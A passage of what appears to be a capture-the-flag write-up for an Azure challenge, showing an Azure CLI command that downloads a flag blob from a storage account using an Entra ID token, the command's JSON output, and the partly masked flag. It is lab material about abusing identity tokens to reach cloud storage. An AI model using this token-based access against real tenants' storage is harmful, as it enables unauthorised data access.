




**2. Download the Blob using Our Entra ID Token (`--auth-mode login`):**
```bash
user@monthly-challenge:~$ az storage blob download \
  --account-name azurechallengectfflag \
  --container-name grab-the-flag \
  --name ctf_flag.txt \
  --file ./flag.txt \
  --auth-mode login
Finished[#############################################################]  100.0000%
{
  "container": "grab-the-flag",
  "content": "",
  "contentMd5": null,
  "deleted": false,
  "encryptedMetadata": null,
  "encryptionKeySha256": null,
  "encryptionScope": null,
  "hasLegalHold": null,
  "hasVersionsOnly": null,
  "immutabilityPolicy": {
    "expiryTime": null,
    "policyMode": null
  },
  "isAppendBlobSealed": null,
  "isCurrentVersion": null,
  "lastAccessedOn": null,
  "metadata": {},
  "name": "ctf_flag.txt",
  "objectReplicationDestinationPolicy": null,
  "objectReplicationSourceProperties": [],
  "properties": {
    "appendBlobCommittedBlockCount": null,
    "blobTier": null,
    "blobTierChangeTime": null,
    "blobTierInferred": null,
    "blobType": "BlockBlob",
    "contentLength": 55,
    "contentRange": "bytes None-None/55",
    "contentSettings": {
      "cacheControl": null,
      "contentDisposition": null,
      "contentEncoding": null,
      "contentLanguage": null,
      "contentMd5": "84we9DsrNXj4AFpgH4BX0A==",
      "contentType": "text/plain"
    },
    "copy": {
      "completionTime": null,
      "destinationSnapshot": null,
      "id": null,
      "incrementalCopy": null,
      "progress": null,
      "source": null,
      "status": null,
      "statusDescription": null
    },
    "creationTime": "2025-08-12T19:50:00+00:00",
    "deletedTime": null,
    "etag": "\"0x8DDD9D96C66138F\"",
    "lastModified": "2025-08-12T19:50:00+00:00",
    "lease": {
      "duration": null,
      "state": "available",
      "status": "unlocked"
    },
    "pageBlobSequenceNumber": null,
    "pageRanges": null,
    "rehydrationStatus": null,
    "remainingRetentionDays": null,
    "serverEncrypted": true
  },
  "rehydratePriority": null,
  "requestServerEncrypted": true,
  "snapshot": null,
  "tagCount": null,
  "tags": null,
  "versionId": null
}

```



**3. Read the Flag:**
```bash
user@monthly-challenge:~$ cat ./flag.txt
WIZ_CTF{EntraID_SXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}user@monthly-challenge:~$ 
```

[Notes](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Breaking_The_Barriers/notes.txt "Results")

